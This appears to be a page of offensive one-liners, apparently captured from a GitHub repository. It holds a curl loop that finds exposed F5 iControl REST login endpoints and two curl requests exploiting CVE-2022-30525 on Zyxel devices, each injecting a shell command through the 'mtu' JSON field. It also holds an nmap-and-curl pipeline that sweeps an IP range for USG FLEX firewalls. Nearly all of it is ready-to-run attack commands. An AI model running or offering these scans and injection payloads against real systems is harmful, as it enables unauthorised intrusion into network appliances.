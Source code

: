# oneliner</br>
F5
</br>
cat hosts | while read host do; do curl -sk "https://$host/mgmt/shared/authn/login" | grep -q 'resterrorresponse' && printf "$host \0331;41mF5 iControl REST API Exposed\e[0m\n"; done
</br>

CVE-2022-30525
</br>
curl -v --insecure -X POST -H "Content-Type: application/json" -d
'{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged"
:"1","vlanid":"5","mtu":"; ping 192.168.1.220;","data":"hi"}'
https://192.168.1.1/ztp/cgi-bin/handler
</br></br>
curl -v --insecure -X POST -H "Content-Type: application/json" -d
'{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged"
:"1","vlanid":"5","mtu":"; echo myppsmoll;","data":"hi"}'
https://192.168.1.1/ztp/cgi-bin/handler</br>



to SCAN SPECIFIC RANGE</br>
nmap x.x.x/x -p 443 -Pn -n -sS --min-rate 5000 --open|grep -Eo "([0-9]{1,3}[\.]){3}[0-9]{1,3}"|xargs -n1 -IPOP sh -c '{ echo POP; curl -ks https://POP|grep "<title>USG FLEX [1-7]00</title>" ; }'</br>
